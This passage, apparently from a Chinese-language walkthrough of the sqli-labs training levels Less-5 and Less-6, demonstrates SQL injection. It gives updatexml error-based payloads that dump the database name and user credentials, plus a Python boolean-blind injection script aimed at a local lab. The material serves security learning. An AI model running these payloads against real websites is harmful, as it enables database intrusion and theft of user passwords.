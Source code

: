 ")

## Less-5

无回显，可以用报错注入、时间盲注和布尔盲注。

输入1\可知是单引号闭合

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240321172616.png)

查询语句正确时会显示You are in，错误则不显示。

爆库名：?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+

其中`concat(0x7e,(database()),0x7e)`用于拼接当前数据库名称，`0x7e`表示波浪线`~`字符，用作分隔符。当`updatexml()`尝试更新一个XML文档并遇到错误时，数据库会返回一个详细错误信息，包括我们注入的数据库名称。这种方法常被用来发现网站背后数据库的结构或数据，是一种SQL注入攻击手段。请只在合法和安全的环境下进行安全测试。

爆表和列略

爆数据：?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,password)from users),0x7e),1) --+

然后是布尔注入，这是以前用的最多的注入方式。

## Less-6（布尔盲注

输入1\可知是"闭合。

布尔盲注脚本，原理略：

```python
import requests

url = 'http://127.0.0.1:1235/sqli-labs/Less-6/?id='
flag = ''
for i in range(1,1000):
    low = 32
    high = 126
    mid = (low + high) // 2
    while (low < high):
        #print(mid)
        #爆库
        payload1 = "1\"and (ascii(substr((select(database())),{0},1))>{1})--+".format(i,mid)
        #爆表
        payload2 = "1\"and (ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),{0},1))>{1})--+".format(i,mid)
        # 爆列
        payload3 = "1\"and (ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),{0},1))>{1})--+".format(i, mid)
        # 爆数据
        payload4 = "1\"and (ascii(substr((select(group_concat(username,':',password))from(security.users)),{0},1))>{1})--+".format(i, mid)
        newurl = url + payload4
        print(newurl)
        r = requests.get(url=newurl)
        if("You are in" in r.text):
            low = mid + 1
        else:
            high = mid
        if(mid == 32 or mid == 126):
            break
        mid = (low + high) // 2
    flag += chr(mid)
    print(flag)
print(flag)
```
